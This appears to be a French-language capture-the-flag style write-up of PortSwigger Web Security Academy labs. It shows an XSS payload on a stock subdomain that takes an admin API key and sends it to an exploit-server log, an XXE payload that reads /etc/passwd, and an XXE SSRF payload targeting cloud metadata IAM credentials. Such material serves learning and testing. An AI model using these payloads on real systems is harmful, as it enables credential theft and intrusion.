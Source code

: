 Dans le cadre de ce lab il n'est pas possible de faire du MITM et il faut donc trouver une alternative pour injecter le code dans le sous-domaine.

En fouillant le site, on voit que la fonctionnalité "Check stock" des différents produits ouvre une nouvelle fenêtre dont l'URL est du type "stock.0a4b002104e86a5c861a42de009200bd.web-security-academy.net/?productId=1&storeId=1"

On tient donc un sous-domaine.

En jouant avec la requête de vérification du stock, on peut voir que le premier paramètre est vulnérable à une XSS : 

    GET /?productId=<s>1</s>&storeId=<s>1</s> HTTP/1.1

><h4>ERROR</h4>Invalid product ID: <s>1</s>

En poussant cette XSS plus loin, on peut donc l'utiliser pour faire une requête vers le site principal afin de récupérer la clé API de l'administrateur de la même manière que dans les autres labs.

Code à envoyer dans le serveur d'exploitation pour que la victime clique : 

    <script>
    document.location="http://stock.0a4b002104e86a5c861a42de009200bd.web-security-academy.net/?productId=1<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0a4b002104e86a5c861a42de009200bd.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0ac1009004dc6a8286884148014100c3.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
    </script>

## === XML external entity (XXE) injection ===

### Exploiting XXE using external entities to retrieve files

En utilisant la fonction "Check stock" sur n'importe quel produit, on voit que les données transmises sont envoyées au format XML.

En modifiant le XML avec un payload de XXE classique, on obtient une erreur 400 dont le contenu contient le fichier /etc/passwd : 

    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
    <stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
    </stockCheck>

### Exploiting XXE to perform SSRF attacks

Même principe qu'au-dessus mais avec un payload de SSRF : 


    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
    <stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
    </stockCheck>
    